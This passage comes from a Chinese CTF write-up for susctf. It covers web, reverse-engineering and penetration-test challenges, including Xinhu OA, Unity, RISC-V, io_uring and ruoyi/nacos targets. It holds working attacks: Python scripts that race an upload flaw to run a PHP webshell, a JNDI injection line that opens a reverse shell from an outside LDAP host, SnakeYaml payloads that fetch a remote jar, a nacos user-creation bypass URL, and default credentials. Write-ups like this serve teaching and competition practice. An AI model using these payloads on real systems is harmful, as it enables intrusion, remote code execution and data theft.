                        $bo                 = $this->rock->createtxt($filepath, $filebase64);
                        @unlink($oldfile);
                        if(!$bo)$filepath = '';
                }else{
                }
                return $filepath;
        }
}
```

如果我们上传 php 文件，会将文件内容进行 base64 编码后写入 `.uptemp` 文件

全局寻找可以解码 base64 且参数可控的函数，发现 `webmain/task/runt/qcloudCosAction.php` 可以利用

```php
public function runAction()
        {
                if(!getconfig('qcloudCos_SecretKey') && !getconfig('alioss_keysecret'))return '未配置存储';
                
                $fileid = (int)$this->getparams('fileid','0'); //文件ID
                if($fileid<=0)return 'error fileid';
                $frs         = m('file')->getone($fileid);
                if(!$frs)return 'filers not found';
                
                $filepath         = $frs['filepath'];
                if(substr($filepath, 0, 4)=='http')return 'filepath is httppath';
                $nfilepath        = '';
                if(substr($filepath,-6)=='uptemp'){
                        $aupath = ROOT_PATH.'/'.$filepath;
                        $nfilepath  = str_replace('.uptemp','.'.$frs['fileext'].'', $filepath);
                        $content        = file_get_contents($aupath);
                        $this->rock->createtxt($nfilepath, base64_decode($content));
                        unlink($aupath);
                        $filepath         = $nfilepath;
                }
                
                $msg         = $this->sendpath($filepath, $frs, 'filepathout');
                if($nfilepath && file_exists($nfilepath))unlink($nfilepath);
                if($msg)return $msg;

                $thumbpath        = $frs['thumbpath'];
                if(!isempt($thumbpath)){
                        $msg         = $this->sendpath($thumbpath, $frs, 'thumbplat');
                        if($msg)return $msg;
                }
                return 'success';
        }
```

该方法会首先判断配置文件中是否有 `qcloudCos_SecretKey` 和 `alioss_keysecret` 两个键，如果有就可以将 `.uptemp` 文件还原到原始后缀以及内容

```php
$nfilepath  = str_replace('.uptemp','.'.$frs['fileext'].'', $filepath);                        
$content        = file_get_contents($aupath);
$this->rock->createtxt($nfilepath, base64_decode($content));
```

其中

```php
$frs         = m('file')->getone($fileid);
```

`$frs['fileext']` 是我们初始上传时保存在数据库中的原始文件的后缀名，并且传入参数为 `fileid`，此参数在前文进行文件上传时会直接返回



则可以构造 url 访问 `qcloudCosAction.php`

```
task.php?m=qcloudCos|runt&a=run&fileid={id}
```

但是此恢复后的文件会被后续代码删除

```php
if($nfilepath && file_exists($nfilepath))unlink($nfilepath);
```



此处删除恢复后的文件似乎是对历史漏洞的修复，但是仍可以通过条件竞争来实现 RCE。利用脚本如下

**upload.py**（需要将其中的 cookie 替换为登录后的有效 cookie）

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading
import re
import time


def upload_file(file_content):
    url = "http://test.com/index.php?a=upfile&m=upload&d=public&maxsize=2&ajaxbool=true&rnd=358566"
    headers = {
        "Host": "test.com",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36",
        "Accept": "*/*",
        "Accept-Encoding": "gzip, deflate, br",
        "Cookie": "PHPSESSID=km6q7jhhm0p937r7vqiul95ohb; deviceid=1735294254531; xinhu_mo_adminid=bww0bwt0yt0yt0tn0nb0bww0bwe0et0bbw0ea0bwy0ne0en0nc0xe012; xinhu_ca_adminuser=admin; xinhu_ca_rempass=0",
        "Connection": "keep-alive"
    }
    files = {
        'file': ('info.php', file_content, 'text/php')
    }

    try:

        response = requests.post(url, headers=headers, files=files)

        response.raise_for_status()
        response_json = response.json()

        filepath = response_json.get('filepath')
        file_id = response_json.get('id')

        return filepath, file_id

    except requests.exceptions.RequestException as e:
        print(f"请求错误: {e}")
        return None, None
    except ValueError:
        print("响应内容不是有效的JSON格式。")
        return None, None
    
def run_task(fileid):

    base_url = "http://test.com/task.php"
    params = {
        "m": "qcloudCos|runt",
        "a": "run",
        "fileid": fileid
    }

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
                      "AppleWebKit/537.36 (KHTML, like Gecko) "
                      "Chrome/129.0.6668.71 Safari/537.36",
        "Accept": "*/*",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "keep-alive",
    }

    try:
        response = requests.get(base_url, params=params, headers=headers)
        response.raise_for_status()
        try:
            return response.json()
        except ValueError:
            return response.text

    except requests.exceptions.RequestException as e:
        print(f"请求错误: {e}")
        return None
    


file_content = "<?php system('whoami');"

filepath, file_id = upload_file(file_content)

if filepath and file_id:
    print(f"文件路径: {filepath}")
    print(f"文件ID: {file_id}")
else:
    print("上传失败。")


# file_php=extract_identifier(filepath)
# thread = send_requests(file_php)
time.sleep(15)
fileid = file_id
result = run_task(fileid)

if result:
    print("请求成功，响应内容:")
    print(result)
else:
    print("请求失败。")
```

**exp.py**

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading


url = 'http://test.com/upload/2024-12/27_19230888.php'

headers = {
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}


session = requests.Session()
session.headers.update(headers)


stop_event = threading.Event()

def send_request():
    while not stop_event.is_set():
        try:
            response = session.get(url)
            if response.status_code == 200:
                print(f"ok!: {response.status_code}")
                print(response.text)
                stop_event.set()
        except requests.RequestException as e:
            print(f"Request failed: {e}")


def send_multiple_requests(num_threads):
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        futures = [executor.submit(send_request) for _ in range(num_threads)]
        for future in futures:
            future.result()

num_threads = 1000
send_multiple_requests(num_threads)
```

先运行 upload.py 获取文件 id 以及文件路径，之后 upload.py 会 sleep(15)，在这期间我们将文件路径例如 `27_19230888.temp` 修改为 `27_19230888.php` 并填入 exp.py，待 upload.py 成功提交后即可竞争成功。

成功 RCE，执行的代码是 `<?php system('whoami');`



# Reverse

## ezsignin

用 ida 打开程序发现有一些花指令 先把这些花指令复原 nop 掉就行





之后看程序逻辑 发现是走迷宫(6*6 的地图) 走完迷宫之后根据走迷宫的结果来加密 flag

接下来需要找的是地图、方向按键、加密算法和密文



E 是入口 1 是道路 0 是墙壁 O 是出口 因为是 6*6 的迷宫 还原成 2 维就是





所以 1 是向右 2 是向下 3 是向左 4 是向上

所以走迷宫解法就是 11122233221111



密文很容易找到，就是：2wHFw6XRQFJexwYcizWFJVU87GnPPbuRZF99t8884SxTeRptgvAmfzdqmE9skCSRbEMUc8r5WcGQ4aq8gJQ2fpUQgiiNvkEQXL4GoQ5rBZfejYFtEpTA5x1kybteneAuECqp3uLCDnuU4GwD1kKet8Bmqb4eidPWEcr6bSNNU3wr5xxtHpc43TyHMSKggBRZr

经过分析加密算法也能轻松得到 当按键为 1 时 是异或 0x66 当按键为 2 时 是标准 base58 当按键为 3 时 是标准 rc4 且密钥为 YourKey 当按键为 4 时 是异或随机数(干扰项 因为走迷宫时没有用到 4)

所以 flag 加密流程是：flag→ 异或 0x66→ 异或 0x66→ 异或 0x66→base58→base58→base58→rc4→rc4→base58→base58→ 异或 0x66→ 异或 0x66→ 异或 0x66→ 异或 0x66→ 密文

然而两个异或固定值、两个相同密钥的 rc4 是可以抵消的 所以 flag 加密流程简化为：flag→ 异或 0x66→base58→base58→base58→base58→base58→ 密文

直接使用 cyberchef 解密：



## Android-native

主要就是 rc4 算法，rc4 密钥为 `1l0v3susf0ever`，后 13 个字节异或 `1145141919810`

算法部分是 `JNI_OnLoad` 动态注册的，这个地方没有加入任何混淆。直接分析可以得到是 rc4 算法。`my_init_function` 存放在 `.init_array` 中，如果要解密拿到密钥，需要在 ida 中打开 segements 窗口



然后双击 `.init_array`



之后可以看到一个初始化函数，双击跳转过去即可



当然因为本题出的时候没有加入混淆，因此发现密钥不对的时候查找密钥的引用，应该也能发现这个初始化函数



## 一个饼干人

超 easy 的一道 unity 资源逆向，在提示下基本开盒即送

解包在 assets 目录下找到 delicious 文件

根据文件头可以得知这是 assetbundle 文件也就是 ab 包，unity 版本为 2022.3.56f1



找到版本适用的解包工具即可获得 flag 图片碎片，大致拼接推算一下即可得到 flag

推荐工具（支持版本比较新）：[https://github.com/AssetRipper/AssetRipper](https://github.com/AssetRipper/AssetRipper)

## Made-in-haven

这个题出的时候采用了天堂之门技术，这个技术简单的说就是在 x86 代码中插入一段 x64 汇编代码，然后通过修改 cs 寄存器可以直接让 Windows 进入 x64 模式执行 x64 汇编，执行结束以后再通过修改 cs 寄存器回到 x86 模式。因为 x86 和 x64 的汇编代码同时存在，所以会对 ida 的分析形成一定的干扰

这个题目的 key：`deepdarkfantasy!` 加密算法为 tea

key 加密存储，前 8 个字节 xor 19260817, 后 8 个字节 + 20251001

首先先找到 main 函数在哪里

用 ida pro 打开程序，进入 start 函数，可以看到如下函数指针跳转，这种一般就是 main 函数了。



没有经验也可以问 AI



得到 main 函数的地址为 `0x4012D0`

然后接下来 ida 就不怎么管用了（我之前做类似题目的时候还是这样），接下来使用 windbg （注意是 64 位的）进行调试

windbg 教程有不少，我这里就列举几个比较常用的命令

- `bp 0x1234` 在 0x1234 处下断点
- `bl` 列出所有断点
- `lm` 列出所有模块的内存地址
- `g` 运行到断点
- `t` 步入
- `p` 步出

调试运行到这个位置，可以看到这里修改了 cs 寄存器，之后就是进入 64 位模式了，之后分析汇编即可，因为大意了没有去掉符号，所以根据函数名应该能直接猜出汇编代码在干啥。



## frameos

`Risc-V` 模拟器 `OS`。核心是 `hook` 了 `risc-v` 的 `ecall` 指令来实现系统调用。根文件系统部分是通过 `ext2` 镜像的读取来实现的，也挂载了其他 `fs` 比如 `proc` 和 `devfs`，可以用 `binwalk` 来提取嵌入到 `frameos` 的 `ext2` 镜像，可以看到以下文件：



不做文件系统加密的话，文件内容无法保护，所以这里的 `/flag` 其实并不是真的 `flag`（

`/etc/shadow` 有一个用户名 + 密码，用 `hashcat` 简单爆破下即可。

```shell
hashcat -m 0 -a 3 --username -1 '?l?u?d' etc/shadow '?1?1?1?1?1?1'
```



题目的关键是在 `/sbin/init` 这个文件里，是一个 `riscv` 程序。

简单的字符串搜索可以大致看一下做了什么：



有一个 `guess` 命令，输入错误会显示 `NO`，那么基本上可以确定是要分析的检验逻辑。



`IDA` 中加载（这些地址可以从 `unicorn` api 的参数找到）：



首先第一步是一个 `rc4` 加密运算，`key` 值是 `/proc/status`（多进程留到以后再做，所以 `/proc/self` 就没了）。



```shell
$ cat /proc/status
Name: init; State: R; Pid: 1
```

（实际有个反调会将 `init` 改成 `hacker`）

vfs 的读操作，实际有一个反调如果检测到调试器会把进程名改成 `hacker` 干扰加密。



后面还有一个 `fisher yates` 混洗（跟 [std::random_shuffle, std::shuffle - ](https://en.cppreference.com/w/cpp/algorithm/random_shuffle.html)[cppreference.com](https://en.cppreference.com/w/cpp/algorithm/random_shuffle.html) 差不多），可以看到程序打开了 `/dev/rng` 文件，通过 `ioctl` 和 `read` 来获取伪随机数，这部分逻辑也是在 `os` 侧的 `vfs` 实现的。`ioctl` 设置了初始种子为 `0x1337`，`vfs` 读操作都将通过 `lfsr` 算法生成一个伪随机序列。（`ioctl` 是其中一个实现的系统调用也就是 `ecall`，调用号看这个：）

```cpp
#define SYS_EXIT 0
#define SYS_WRITE 1
#define SYS_READ 2
#define SYS_OPEN 3
#define SYS_READDIR 5
#define SYS_IOCTL 6
```

可以通过跟进 `/dev/rng` 的 `read` 操作来获取随机值，在 `frameos::fs_dev::RandomFile as frameos::vfs::VfsFile>::read` 这个函数。



其中 `memcpy` 实际就是 `copy_from_slice` 的包装。可以 `hook` 一下，`frida` 或者 `gdb` 都行。

```
pwndbg> breakrva 0x17FE33
Breakpoint 2 at 0x5555556d3e33

pwndbg> hexdump $rsi 
+0000 0x7fffffff99bc  98 09 20 80 10 9a ff ff  ff 7f 00 00 04 00 00 00  │........│........│
+0010 0x7fffffff99cc  00 00 00 00 04 00 00 00  00 00 00 00 04 00 00 00  │........│........│
+0020 0x7fffffff99dc  00 00 00 00 e0 f0 d1 56  55 55 00 00 30 fa d0 56  │.......V│UU..0..V│
+0030 0x7fffffff99ec  55 55 00 00 d0 fc ff 7f  00 00 00 00 9a 58 6d 55  │UU......│.....XmU│
```

当然自己逆一下写 `lfsr` 也是可以的。

```python
from Crypto.Cipher import ARC4
from typing import List


def lfsr32(seed: int):
    if seed == 0:
        raise ValueError("seed must be non-zero")
    state = seed & 0xFFFFFFFF
    POLY = 0x80200003
    while True:
        lsb = state & 1
        state >>= 1
        if lsb:
            state ^= POLY
        state &= 0xFFFFFFFF
        yield state


def rand_words(seed: int, count: int) -> List[int]:
    it = lfsr32(seed)
    return [next(it) for _ in range(max(0, count))]


def fisher_yates_unshuffle(data: bytearray, rand_words: List[int]):
    n = len(data)
    js: List[int] = []
    idx = 0
    for i in range(n - 1, 0, -1):
        if idx >= len(rand_words):
            raise RuntimeError("not enough random words provided")
        r = rand_words[idx] & 0xFFFFFFFF
        idx += 1
        js.append(int(r % (i + 1)))
    for i in range(1, n):
        j = js[n - 1 - i]
        data[i], data[j] = data[j], data[i]


def unshuffle_and_decrypt(ciphertext: bytes, key: bytes, seed: int) -> bytes:
    data = bytearray(ciphertext)
    if len(data) > 1:
        words = rand_words(seed, len(data) - 1)
        fisher_yates_unshuffle(data, words)
    return ARC4.new(key).decrypt(bytes(data))


def main():
    key = b"Name: init; State: R; Pid: 1"
    seed = 0x1337

    ciphertext = bytes.fromhex(
        "15a36ef0ed950bbe9b234c80995ce2714fb7954a60c05a0de602733d486d5495b270b6de71751da199653f09"
    )

    recovered = unshuffle_and_decrypt(ciphertext, key, seed)
    print("plaintext:", recovered.decode(errors="replace"))


if __name__ == "__main__":
    main()
```


（题目出的有点急，可能有部分细节地方造成误解，请各位师傅见谅

## Xerxes

首先有一个壳，通过 `openssl` 来解密 `elf` 文件内容，拷贝到 `memfd` 上面去，然后调用 `execveat` 来执行。可以在 `execveat` 设置断点：

```shell
(gdb) catch syscall execveat
(gdb) p $rdi
$3 = 3
(gdb) info inferiors 
  Num  Description       Connection           Executable        
* 1    process 1816270   1 (native)
```

只需要把 `/proc/{pid}/fd/3` 的内容 `dump` 出来即可：



```
cat /proc/1816270/fd/3 > out.elf
```

这样就可以脱壳。第二阶段的是个用 `io_uring` 实现的，稍微参考了下面这个：

- [Red Team Tactics: Evading EDR on Linux with io_uring | 0xMatheuZ](https://matheuzsecurity.github.io/hacking/evading-linux-edrs-with-io-uring/)
- [MatheuZSecurity/RingReaper: Linux post-exploitation agent that uses io_uring to stealthily bypass EDR detection by avoiding traditional syscalls.](https://github.com/MatheuZSecurity/RingReaper/tree/main)

`io_uring` 通过 `user` 和 `kernel` 的共享页面提交 `sqe` 来实现异步系统调用（更详细解释可以参考其他资料）。之前就有人发现 `io_uring` 这种间接调用方法正好可以规避某些 `EDR`，所以本题也是在此基础上的一个概念验证。

稍微有点可惜的是 `io_uring` 支持还比较有限，例如 `fork` 的支持似乎还有点争议。

- [Introducing io_uring_spawn (LWN.net)](https://lwn.net/Articles/908268/)

不清楚是否有落地，此外 `dir` 相关调用好像也没看到支持，所以还是有一部分系统调用直接用原生的。

可以先手动编译个 `liburing` 来恢复下符号。

主函数在 `sub_405496` 这里，通过 `pthread` 来启动。主函数会用 `timerfd` 等待八小时后通过 `sem_post` 来唤起子线程。

`sub_405496` 有一个函数做了 `docker` 检测（通过 `/proc/self/mounts`），如果要在 `docker` 运行的话可以 patch 掉。(由于 `io_uring` 洞实在太多了，所以默认是不开启的，需要配置一下 `--security-opt seccomp=unconfined`，当然有条件还是建议虚拟机 + 快照）



下面这里的 `sub_4376A0` 就是 `socket`，创建的 `socket` 类型为 `AF_ALG`，是 linux 内核的一个加密接口：

- [User Space Interface — The Linux Kernel documentation](https://www.kernel.org/doc/html/latest/crypto/userspace-if.html#symmetric-cipher-api)



指定加密的方式是通过 `bind` 系统调用的，这里把 `bind` 重写为了 `io_uring` 的 `sqe` 操作。这里指定了 `chacha20`，`xor` 解密即可发现。



`key` 是通过 `setsockopt` 来实现的：

实际上做的是这个...

```c
setsockopt(tfmfd, SOL_ALG, ALG_SET_KEY, keys, 32);
```

那么现在 `key` 知道了，`chacha20` 的参数还有一个 12 字节的 `nonce` 和一个 4 字节的 `counter`。

`nonce` 是读取 `/dev/urandom`，而 `counter` 是静态变量每次 `++`，由于还要恢复，所以把这些东西加到文件的末尾同时 `xor` 一下 `0x55`，那么根据这个来写脚本还原即可。



这里再补充一下 `io_uring` 程序的跟踪调试。由于 `io_uring` 的调用方法是通过写共享内存，因此像 `strace` 这样常规的系统调用跟踪工具无效，但还是可以通过跟踪更底层的内核函数的方法来获取信息。让 `ai` 写了一个 `io_uring` 的跟踪程序：（可以直接在 `host` 外面去运行，可以跟踪到容器内，当然有条件建议还是虚拟机）

```python
#!/usr/bin/env python3
from bcc import BPF
import ctypes as ct

prog = """
#include <uapi/linux/ptrace.h>
#include <linux/io_uring.h>

struct event_t {
    u64 ip;
    u64 addr;
    u64 addr2;
    unsigned char buf1[0x20];
    unsigned char buf2[0x20];
    unsigned char buf1_valid;
    unsigned char buf2_valid;
    char comm[16];
};

BPF_PERF_OUTPUT(events);

int trace_prep(struct pt_regs *ctx, struct io_kiocb *req, struct io_uring_sqe *sqe) {
    struct event_t e = {};
    e.ip = PT_REGS_IP(ctx);

    bpf_probe_read_kernel(&e.addr, sizeof(e.addr), &sqe->addr);
    bpf_probe_read_kernel(&e.addr2, sizeof(e.addr2), &sqe->addr2);
    bpf_get_current_comm(&e.comm, sizeof(e.comm));

    if (e.addr != 0) {
        if (bpf_probe_read_user(&e.buf1, sizeof(e.buf1), (void*)e.addr) == 0) {
            e.buf1_valid = 1;
        }
    }

    if (e.addr2 != 0) {
        if (bpf_probe_read_user(&e.buf2, sizeof(e.buf2), (void*)e.addr2) == 0) {
            e.buf2_valid = 1;
        }
    }

    events.perf_submit(ctx, &e, sizeof(e));
    return 0;
}
"""

b = BPF(text=prog)
b.attach_kprobe(event_re="^io_.*_prep$", fn_name="trace_prep")


def hexdump(buf, width=16):
    data = bytes(buf)
    lines = []
    for i in range(0, len(data), width):
        chunk = data[i:i+width]
        hex_bytes = ' '.join(f"{b:02x}" for b in chunk)
        ascii_rep = ''.join(chr(b) if 32 <= b < 127 else '.' for b in chunk)
        lines.append(f"{i:04x}: {hex_bytes:<{width*3}} {ascii_rep}")
    return '\n'.join(lines)


class Event(ct.Structure):
    _fields_ = [
        ("ip", ct.c_ulonglong),
        ("addr", ct.c_ulonglong),
        ("addr2", ct.c_ulonglong),
        ("buf1", ct.c_ubyte * 0x20),
        ("buf2", ct.c_ubyte * 0x20),
        ("buf1_valid", ct.c_ubyte),
        ("buf2_valid", ct.c_ubyte),
        ("comm", ct.c_char * 16),
    ]


def print_event(cpu, data, size):
    e = ct.cast(data, ct.POINTER(Event)).contents
    func_name = b.ksym(e.ip)
    comm = e.comm.split(b"\x00", 1)[0].decode(errors="replace")
    print(f"{func_name} (comm={comm}) addr=0x{e.addr:x} addr2=0x{e.addr2:x}")
    if e.buf1_valid:
        print("addr data:")
        print(hexdump(e.buf1))
    if e.buf2_valid:
        print("addr2 data:")
        print(hexdump(e.buf2))
    print()


print("Tracing io_uring prep functions... Ctrl-C to exit")

b["events"].open_perf_buffer(print_event)
try:
    while True:
        b.perf_buffer_poll()
except KeyboardInterrupt:
    pass
```

例如可以跟踪到下面的自删操作（进程名改了）：



解密脚本：（也是 `ai` 写的）

```python
import argparse
import os
import struct
from typing import Optional

from Crypto.Cipher import ChaCha20


MAGIC_TRAILER = bytes([32, 219, 144, 247, 216, 83, 168, 150])
KEY_BYTES = bytes(range(0x00, 0x20))  # 32 bytes: 0x00..0x1f
TRAILER_LEN = 16 + 8  # IV(16) + MAGIC(8)


def derive_output_path(input_path: str) -> str:
    if input_path.endswith(".enc"):
        return input_path[:-4]
    return f"{input_path}.dec"


def decrypt_xerxes_enc(input_path: str, output_path: Optional[str] = None) -> str:
    if not os.path.isfile(input_path):
        raise FileNotFoundError(f"Input file not found: {input_path}")

    if output_path is None:
        output_path = derive_output_path(input_path)

    file_size = os.path.getsize(input_path)
    if file_size < TRAILER_LEN:
        raise ValueError("File too small to contain IV and magic trailer")

    with open(input_path, "rb") as f_in:
        # Read and verify magic trailer
        f_in.seek(file_size - 8)
        magic = f_in.read(8)
        if magic != MAGIC_TRAILER:
            raise ValueError("Magic trailer mismatch; not a xerxes-encrypted file")

        # Read IV (16 bytes): little-endian 32-bit counter + 12-byte nonce
        f_in.seek(file_size - TRAILER_LEN)
        iv = f_in.read(16)
        if len(iv) != 16:
            raise ValueError("Failed to read IV")

        iv = bytes([i ^ 0x55 for i in iv])
        print(iv)
        # counter = struct.unpack("<I", iv[:4])[0]
        nonce = iv[4:]
        if len(nonce) != 12:
            raise ValueError("Invalid nonce length")

        # Prepare cipher
        cipher = ChaCha20.new(key=KEY_BYTES, nonce=nonce)
        # cipher.seek(counter * 64)

        # Decrypt ciphertext (everything before the IV + magic)
        ciphertext_len = file_size - TRAILER_LEN
        bytes_left = ciphertext_len
        f_in.seek(0)

        # Write plaintext
        with open(output_path, "wb") as f_out:
            # chunk_size = 1024 * 1024
            counter = 0
            chunk_size = 65536
            while bytes_left > 0:
                to_read = min(chunk_size, bytes_left)
                chunk = f_in.read(to_read)
                if not chunk:
                    raise IOError("Unexpected EOF while reading ciphertext")
                # cipher.seek(counter * 64)
                cipher.seek(0)
                f_out.write(cipher.decrypt(chunk))
                bytes_left -= len(chunk)
                counter += 1

    return output_path


def main() -> None:
    parser = argparse.ArgumentParser(
        description="Decrypt a .enc file produced by xerxes.c (ChaCha20 via AF_ALG)"
    )
    parser.add_argument("input", help="Path to the .enc file")
    parser.add_argument("-o", "--output", help="Output plaintext path (optional)")
    args = parser.parse_args()

    out_path = decrypt_xerxes_enc(args.input, args.output)
    print(f"Decrypted to: {out_path}")


if __name__ == "__main__":
    main()
```

还原出来是一个 `parquet` 文件（纯粹是为了模拟业务数据瞎整的活），直接字符串搜索即可拿到 `flag`。

```shell
❯ strings data.parquet | grep susctf
:frpjsu | susctf{8cfbe5ef-3bad-42db-896e-218583acc9d1}g
```

~~感觉~~ `io_uring` ~~用来搞这种用途还不错（~~

## Ode to the West Wind

嵌入式 `zephyr` 题，去掉符号了因此建议自己编译一下再恢复符号。

- [Getting Started Guide — Zephyr Project Documentation](https://docs.zephyrproject.org/latest/develop/getting_started/index.html)
- [QEMU Emulation for ARM Cortex-M3 — Zephyr Project Documentation](https://docs.zephyrproject.org/latest/boards/qemu/cortex_m3/doc/index.html)

由于 `qemu` 的环境实在太过受限，所以题目总体只是串口输出加了一丢丢加密。运行后打印 `flag` 的初始值 `susctf{` 但后面停止输出。



```
CONFIG_TEST_RANDOM_GENERATOR=y
CONFIG_ENTROPY_GENERATOR=y
CONFIG_BUILD_OUTPUT_STRIPPED=y

# mbedtls
CONFIG_MBEDTLS=y
CONFIG_MBEDTLS_BUILTIN=y
CONFIG_MBEDTLS_GENPRIME_ENABLED=y
CONFIG_MBEDTLS_PKCS1_V21=y
CONFIG_MBEDTLS_RSA_C=y
```

可以用 `bindiff` 恢复，还是能恢复不少符号的（如果调用一下 `mbedtls` 的函数的话甚至能恢复更多符号，直接编译 `helloworld` 代码 `mbedtls` 会被编译器优化掉，暂时没找到支持的关优化方法）



后面找入口点也可以对照一下正常编译的程序，是在 `bg_thread_main` 里面调用的最后一个函数，那么我们把 `bg_thread_main` 的符号恢复后就可以找到 `main` 了。（`sub_53C`）

`main` 会循环内打印一个字符。那么我们就知道了数据是从这来的：





数据在 `byte_39F8`，结合 `sub_3C0` 的参数可以知道格式大概是：（单个 `uint64_t` 被拆成了两个寄存器）

```c
struct discrete_logarithm_param {
  uint64_t h;
  uint64_t g;
  uint64_t p;
};
```



可以发现就是离散对数问题$g^x \equiv h \pmod{p}$，题目自己是用暴力算法进行求解复杂度为$\mathcal{O}(n)$。

但注意到$p - 1$可以分解为小素因子的乘积，通过算法可以降低运算复杂度。



```python
from sympy.ntheory import discrete_log

params = [
    (3059, 3, 40961),
    (26213, 3, 40961),
    (30716, 3, 40961),
    (202, 3, 257),
    (705094785346, 7, 2061584302081),
    (151368270908, 7, 2061584302081),
    (135939152202, 7, 2061584302081),
    (1460925678928, 7, 2061584302081),
    (1186536944161, 7, 2061584302081),
    (554059855060, 7, 2061584302081),
    (393137959539, 7, 2061584302081),
    (23282, 3, 40961),
]

def main():
    out_bytes = bytearray()

    for h, g, p in params:
        x = discrete_log(p, h, g)

        if x == 0:
            part = b"\x00"
        else:
            part = x.to_bytes((x.bit_length() + 7) // 8, "big")

        out_bytes.extend(part)

    print(out_bytes.decode("utf-8"))


if __name__ == "__main__":
    main()
```

（其实一开始的设计是一次发一个 `MQTT` 数据包，感觉真实了很多，但实现过程中发现基于串口的 `MQTT` 并不好实现，`zephyr` 也只是在官网文档提了一嘴，于是作罢直接用 `printk` 串口输出）

# Pentest

第一次出渗透测试环境的题目，出了不少问题，在此向大家道歉。

该环境由 ruoyi 微服务版修改搭建而成，难度不大，全部的漏洞利用都是 nday，本身定位为 Medium 就已经有点定高了，但是没想到做得出来的人还是比较少。

除此之外，该环境中也产生了不少非预期的解法，但是感觉挺好的，比较符合现实攻防渗透测试的情况。

## pen4ruo1-1

首先根据网页的加载页面或者通过目录扫描发现一些信息泄露都可以知道这是一个 ruoyi 框架的系统；

ruoyi 系统是存在固定的弱口令的，例如，默认用户名 `ry/ruoyi/admin`，默认密码 `admin/admin123/ruoyi/123456` 等等，在当前靶场的用户名密码为 `ry/admin123`





进到系统后台以后，可以发现是比较熟悉的 ruoyi 系统后台，就可以通过尝试定时任务 rce；

### jndi 注入

参考链接：[https://blog.takake.com/posts/7219/#LDAP%E6%B3%A8%E5%85%A5](https://blog.takake.com/posts/7219/#LDAP%E6%B3%A8%E5%85%A5)

```
javax.naming.InitialContext.lookup('ld'ap://1.94.***.***:1389/Basic/ReverseShell/1.94.***.***/24444')
```

与之相应的 jndi-exploit [https://github.com/Pikaqi/JNDIExploit-1.4](https://github.com/Pikaqi/JNDIExploit-1.4)

添加定时任务



启动 jndi 注入的监听

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 1.94.***.***
```

执行一次定时任务，即可成功反弹 shell 到指定的监听机器中；



至此拿到第一个 flag，以及一台机器的系统权限；

### SnakeYaml 反序列化

参考链接：[https://blog.takake.com/posts/7219/#2-6-1-SnakeYaml-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96](https://blog.takake.com/posts/7219/#2-6-1-SnakeYaml-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["h\x74tp://xx.xx.xx.xx:xxxx/yamlpayload.jar"]]]]')
```

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ht'tp://**.**.***.**:***/yamlpayload.jar"]]]]')
```

使用该链接的源代码编译生成相应的 jar 包 [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

## pen4ruo1-2



根据获取的系统权限搭建内网穿透；（本次比赛由于环境问题，可能存在部分的内网穿透工具无法成功搭建，但是已经给出 stowaway 的提供，可以使用该工具进行搭建）

这个 flag 位于数据库中，想要获得数据库的账户密码，需要登录到 nacos 中进行获取，以下有 3 种方式进行 nacos 的权限获取；

成功搭建代理以后，通过代理即可访问到相关的服务



### nacos 越权添加用户

参考链接：[https://blog.csdn.net/huangyongkang666/article/details/128537094](https://blog.csdn.net/huangyongkang666/article/details/128537094)

通过 post 方式请求以下 url 地址实现越权添加用户

```
http://172.31.4.5:8848/nacos/v1/auth/users?username=demo&password=candy123
```









### nacos 默认 secret.key 绕过身份认证

参考链接：[https://www.cnblogs.com/spmonkey/p/17504263.html](https://www.cnblogs.com/spmonkey/p/17504263.html)

### 下载 jar 包发现 nacos 认证用户密码

让 ai 帮你写一个接收客户端发送文件的 python 服务，然后通过 curl 命令将 jar 包发送到服务端解析；

通过反编译 jar 包可以看到在文件 `bootstrap.yml` 中存在 nacos 登录的用户名和密码；

## pen4ruo1-3

登录进入 nacos 以后，能够在 `ruoyi-file-dev.yml` 配置中找到 minio 的认证用户名和密码



从而登录到 minio 中，在 `susctf` 桶中发现存在 10000 份文件，flag 就包含在其中一份文件中。

直接全选文件进行下载能够获得一个 zip 压缩包，然后解压得到所有文件，通过相应的文件内容查找命令可以获得 flag；

```cpp
findstr /s /i "flag" *.*
```

但是由于环境配置的原因，导致存在 flag 的文件相较于其他文件较小，导致可以直接通过 size 排序直接获得 flag 所在的文件；



还有的师傅通过 minio 的操作命令 `mc` 也能够将所有的文件都下载下来。

## pen4ruo1-4

主要考察 CVE-2022-22947 漏洞利用，参考链接：[https://blog.csdn.net/laobanjiull/article/details/123437183](https://blog.csdn.net/laobanjiull/article/details/123437183)，但是非预期直接通过泄露的 actuator 和 heapdump 拿到了 flag，额。。。。。这；

可以通过该漏洞的一键利用工具通过代理攻击 `172.31.4.6:8080`；

从 gateway 层面进行利用则是通过修改 `ruoyi-gateway-dev.yml` 配置来实现

```
spring:
  redis:
    host: ruoyi-redis
    port: 6379
    password: susctf@2025!@#(redis)
  cloud:
    gateway:
      discovery:
        locator:
          lowerCaseServiceId: true
          enabled: true
      routes:
        # 认证中心
        - id: ruoyi-auth
          uri: lb://ruoyi-auth
          predicates:
            - Path=/auth/**
          filters:
            # 验证码处理
            - CacheRequestFilter
            - ValidateCodeFilter
            - StripPrefix=1
        # 代码生成
        - id: ruoyi-gen
